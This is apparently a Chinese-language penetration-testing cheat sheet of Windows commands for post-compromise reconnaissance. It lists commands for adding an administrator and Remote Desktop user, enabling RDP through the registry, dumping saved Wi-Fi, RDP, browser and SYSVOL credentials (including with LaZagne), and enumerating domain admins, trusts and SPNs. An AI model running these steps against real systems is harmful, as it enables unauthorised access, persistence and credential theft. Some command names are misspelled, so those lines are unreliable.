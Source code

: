 # Windows 常用命令与信息搜集

## Windows 常用命令

```
$ query user               # 查看用户登陆情况
$ whoami                   # 当前用户权限
$ set                      # 环境变量
$ hostname                 # 主机名
$ systeminfo               # 查看当前系统版本与补丁信息
$ ver                      # 查看当前服务器操作系统版本
$ net user                 # 查看用户信息
$ net start                # 查看当前计算机开启服务名称
$ netstat -ano             # 查看端口情况
$ netstat -ano|find "3389" # 查看指定端口
$ tasklist                 # 查看所有进程占用的端口
$ taskkil /im xxx.exe /f   # 强制结束指定进程
$ taskkil -PID pid号       # 结束某个pid号的进程
$ tasklist /svc|find "TermService" # 查看服务pid号
$ wmic os get caption              # 查看系统名
$ wmic product get name,version    # 查看当前安装程序
$ wmic qfe get Description,HotFixID,InstalledOn # 查看补丁信息
$ wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094" # 定位特定补丁
```
```
# 添加管理员用户
$ net user username(用户名) password(密码) /add  # 添加普通用户
$ net localgroup adminstrators username /add   # 把普通用户添加到管理员用户组
# 如果远程桌面连接不上可以添加远程桌面组
$ net localgroup "Remote Desktop Users" username /add
```

开启3389端口：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

## 当前主机信息搜集

### 常用信息搜集

- whoami # 查看当前用户
- net user # 查看所有用户
- query user # 查看当前在线用户
- ipconfig /all # 查看当前主机的主机名/IP/DNS等信息
- route print # 查看路由表信息
- netstat -ano # 查看端口开放情况
- arp -a # 查看arp解析情况
- tasklist /svc # 查看进程及对应服务名
- net localgroup administrators # 查看管理员组成员
- systeminfo # 查看系统信息含补丁信息
- net use # 查看ipc连接情况
- net view # 查看匿名共享情况
- netsh firewall show state # 查看防火墙状态
- cmdkey /l # 查看当前保存的登陆凭证

### 密码搜集

- netsh wlan show profiles # 查看连接过的wifi名称
- netsh wlan show profile name="wifi名称" key=clear # 查看wifi的密码
- dir /a %userprofile%\AppData\Local\Microsoft\Credentials* # 查看RDP连接凭证
- dir /a /s /b "网站目录\*config*" > 1.txt # 数据库配置文件
- laZagne.exe all -oN # 本地wifi/浏览器等密码
- dir %APPDATA%\Microsoft\Windows\Recent # 查看最近打开的文档

### 连通性

- ping www.baidu.com # ICMP连通性
- nslookup www.baidu.com # DNS连通性
- curl [https://www.baidu.com](https://www.baidu.com/) # http连通性
- nc ip port # TCP连通性

## 域信息搜集

### 常用信息搜集

- net config workstation #查看当前登录域
- net user /domain # 获得所有域用户列表
- net view /domain # 查看所有的域
- net view /domain:XXX # 查看该域内所有主机
- net group /domain # 查看所有域用户组列表
- net group "domain computers" /domain # 查看域内所有的主机名
- net group "domain admins" /domain # 查看所有域管理员
- net group "domain controllers" /domain # 查看所有域控制器
- net group "enterprise admins" /domain # 查看所有企业管理员
- nltest /domain_trusts # 获取域信任信息
- net time /domain # 查看当前登录域
- net accounts /domain # 查看域密码策略
- dsquery server # 寻找目录中的域控制器
- netdom query pdc # 查看域控制器主机名
- wmic useraccount get /all #获取域内用户的详细信息

### 环境信息搜集

- nbtscan.exe xx.xx.xx.xx/24 # 查看c段机器
- csvde.exe -f 1.csv -k # 批量导入/导出AD用户
- setspn.exe -T xx.xx.xx.xx -Q */* # 查看当前域内所有spn

### 密码搜集

- dir /s /a \域控IP\SYSVOL*.xml # 获取域里面所有机子的本地管理员账号密码